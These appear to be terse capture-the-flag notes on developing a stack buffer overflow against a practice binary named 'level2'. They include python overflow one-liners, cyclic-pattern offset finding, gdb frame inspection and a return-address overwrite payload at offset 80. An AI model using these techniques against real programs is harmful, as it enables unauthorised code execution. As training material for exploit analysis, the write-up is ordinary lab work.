 


first step checking if the binary vulnerable or not

python -c 'print "A" * 100' | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

find where exactly does it crash

./pattern create 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

SIGSEGV in 0xb7ea4478 in ??



run <<< $(python -c 'print ("-" * 80 + "AAAA")')

"\x08\x04\x84\xe2"[::-1]

$(python -c 'print "-" * 80 + "\x08\x04\x84\xe2"[::-1] ')

there is no system() therefore no shell to jump to

cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Segmentation fault. 
0x61616175

unhex 61616175 | rev ; echo ""

uaaa

cyclic -l uaaa
80

manually calculating the distance between the buffer start address and the EIP

brek at  0x080484f2 <+30>:    mov    0x4(%ebp),%eax

 run <<< "AAAABBBBCCCCDDDDEEEE"
 
info frame

eip at 0xbffff71c

(gdb) x/40wx $esp
0xbffff6b0:     0xbffff6cc      0x00000000      0x00000000      0xb7e5ec73
0xbffff6c0:     0x080482b5      0x00000000      0x00ca0000      0x41414141

(gdb) p/x 0xbffff6c0 + 12

$1 = 0xbffff6cc

(gdb) x 0xbffff6cc

0xbffff6cc:     0x41414141

(gdb) p/d 0xbffff71c - 0xbffff6cc

$3 = 80




